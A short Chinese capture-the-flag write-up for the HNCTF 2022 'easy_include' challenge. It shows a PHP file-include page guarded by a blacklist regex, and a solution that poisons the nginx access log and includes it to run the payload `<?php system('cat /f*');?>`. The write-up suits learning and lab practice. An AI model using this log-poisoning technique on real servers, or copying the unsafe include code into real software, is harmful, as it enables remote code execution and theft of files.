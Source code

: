 # [HNCTF 2022 WEEK2]easy_include 文件包含遇上nginx

这道纯粹记录 完全没想到

```php
<?php
//WEB手要懂得搜索
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

存在文件包含漏洞过滤 data 等常见利用协议

然后我们看看能读取啥东西

发现啥都可以

那我们通过



<img src="https://i-blog.csdnimg.cn/blog_migrate/5a2ec5379851c0303c5554f52692726b.png" alt="" style="max-height:265px; box-sizing:content-box;" />


这里泄露了中间件

那么我们直接去搜



发现存在一个文件日志包含漏洞

```cobol
/var/log/nginx/access.log
```

看了看就是会解析php 所以直接传递参数即可传递一个phpinfo



<img src="https://i-blog.csdnimg.cn/blog_migrate/7b2db59a8fd47e37a07a993b97640040.png" alt="" style="max-height:533px; box-sizing:content-box;" />


成功执行 那么就直接开始吧 直接穿命令

```php
<?php system('cat /f*');?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/29c0fc17ea1cb2e1c2aa1a29393f8d48.png" alt="" style="max-height:156px; box-sizing:content-box;" />


得到flag

这个确实确实确实确实没想到 可以可以 又学到一个东西